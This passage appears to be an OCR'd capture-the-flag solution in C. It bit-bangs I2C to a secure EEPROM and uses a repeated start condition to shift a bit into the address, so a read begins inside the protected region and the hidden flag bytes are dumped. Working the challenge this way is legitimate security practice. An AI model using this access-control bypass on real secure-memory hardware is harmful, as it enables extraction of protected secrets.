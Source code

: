 ```c  
   RAW_I2C_SCL = 1;  
   ret = 2 * ret | RAW_I2C_SDA;  
 }

 return ret;  
}

unsigned char recv_ack(void) {  
 RAW_I2C_SCL = 0;  
 RAW_I2C_SCL = 1;  
 return RAW_I2C_SDA ^ 1;  
}

void read_flag() {  
 unsigned char i;

 print("[PL] Reading flag...");

 // start a write transaction  
 send_start();  
 send_byte(SEEPROM_I2C_ADDR_MEMORY);  
 recv_ack();

 // send an unsecured address  
 send_byte(0);  
 recv_ack();

 // start a write transaction  
 send_start();  
 send_byte(SEEPROM_I2C_ADDR_MEMORY);  
 recv_ack();

 // send the upper 7 bits of the secured address  
 send_7bit(64);

 // start a new transaction, which shifts a 1 into the address lsb  
 send_start();

 // this is a read transaction  
 send_byte(SEEPROM_I2C_ADDR_MEMORY | 1);  
 recv_ack();

 // read the flag, starting from address 65  
 FLAG[0] = 'C';  
 for (i = 1; i < 64; i++) {  
   FLAG[i] = recv_byte();  
   recv_ack();  
 }

 print("DONE\n");  
}

void main(void) {  
 read_flag();

 print("[PL] Flag: ");  
 print(FLAG);  
 print("\n");

 POWEROFF = 1;  
}  
```
